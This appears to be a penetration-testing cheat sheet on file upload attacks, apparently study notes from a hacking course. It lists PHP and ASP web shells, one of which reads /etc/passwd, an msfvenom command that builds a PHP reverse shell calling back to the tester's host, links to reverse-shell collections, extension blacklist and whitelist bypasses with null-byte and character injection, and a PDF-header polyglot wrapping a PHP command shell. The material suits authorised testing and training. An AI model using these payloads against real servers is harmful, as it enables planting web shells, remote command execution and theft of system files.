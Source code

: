 ## Web Shells

| **Web Shell**                                                                           | **Description**                         |
| --------------------------------------------------------------------------------------- | --------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                     |
| `<?php system('ls /'); ?>`                                                              | Basic PHP Command Execution             |
| `<?php echo system($_REQUEST['cmd']); ?>`                                               | Basic PHP Web Shell                     |
| `<% eval request('ls / > 4e732ced3463d06de0ca9a15b6153677.pdf') %>`                     | Basic ASP Web Shell                     |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell [[Msfvenom]] |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                           |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                       |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells   |
|                                                                                         |                                         |

## Bypasses

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Inspector                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`                                                                                          | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)                                                                   | List of File Signatures/Magic Bytes          |

## Limited Uploads

| **Potential Attack** | **File Types**          |
| -------------------- | ----------------------- |
| `XSS`                | HTML, JS, SVG, GIF      |
| `XXE`/`SSRF`         | XML, SVG, PDF, PPT, DOC |
| `DoS`                | ZIP, JPG, PNG           |
## Character Injection
The following are some of the characters we may try injecting: 
```
%PDF-

<?php system($_GET['cmd']); ?>
```
- `%20` - 20htbuser
- `%0a` - 0ahtbuser
- `%00` - 00htbuser
- `%0d0a` - 0dhtbuser
- `/` - /htbuser
- `.\` - \htbuser
- `.` - .htbuser
- `…` - ..htbuser
- `:` - :htbuser